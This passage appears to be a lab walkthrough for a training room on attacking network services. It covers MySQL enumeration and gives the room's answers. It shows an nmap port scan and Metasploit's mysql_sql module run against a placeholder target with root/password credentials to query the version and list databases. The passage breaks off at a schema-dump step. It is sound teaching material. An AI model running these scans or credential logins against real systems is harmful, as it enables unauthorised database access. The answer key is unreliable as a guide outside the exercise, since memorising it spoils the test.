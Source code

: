 **=> Answer: `Facebook`**

### 9. Enumerating MySQL

-   As always, let's start out with a port scan, so we know what port the service we're trying to attack is running on. What port is MySQL using?<br />

```bash
nmap -p- -sS -Pn -T5 <MACHINE_IP>
```

**=> Answer: `3306`**

-   <p>We're going to be using the "mysql_sql" module.</p><p> Search for, select and list the options it needs. What three options do we need to set? (in descending order).<br /></p>

```bash
msfconsole
msf6 > search mysql_sql
msf6 > use 0
msf6 auxiliary(admin/mysql/mysql_sql) > show options
```

![Guide image](/images/posts/network-services-2-15.png)

**=> Answer: `PASSWORD/RHOSTS/USERNAME`**

-   Run the exploit. By default it will test with the "select version()" command, what result does this give you?<br />

```bash
msf6 auxiliary(admin/mysql/mysql_sql) > set PASSWORD password
msf6 auxiliary(admin/mysql/mysql_sql) > set RHOSTS <MACHINE_IP>
msf6 auxiliary(admin/mysql/mysql_sql) > set USERNAME root
msf6 auxiliary(admin/mysql/mysql_sql) > exploit
```

![Guide image](/images/posts/network-services-2-16.png)

**=> Answer: `8.0.42-0ubuntu0.20.04.1`**

-   <p>Great! We know that our exploit is landing as planned. Let's try to gain some more ambitious information. Change the "sql" option to "show databases". how many databases are returned?<br /></p>

```bash
msf6 auxiliary(admin/mysql/mysql_sql) > set SQL "show databases"
msf6 auxiliary(admin/mysql/mysql_sql) > exploit
```

![Guide image](/images/posts/network-services-2-17.png)

**=> Answer: `4`**

### 10. Exploiting MySQL

-   <p>First, let's search for and select the "mysql_schemadump" module. What's the module's full name?<br /></p>

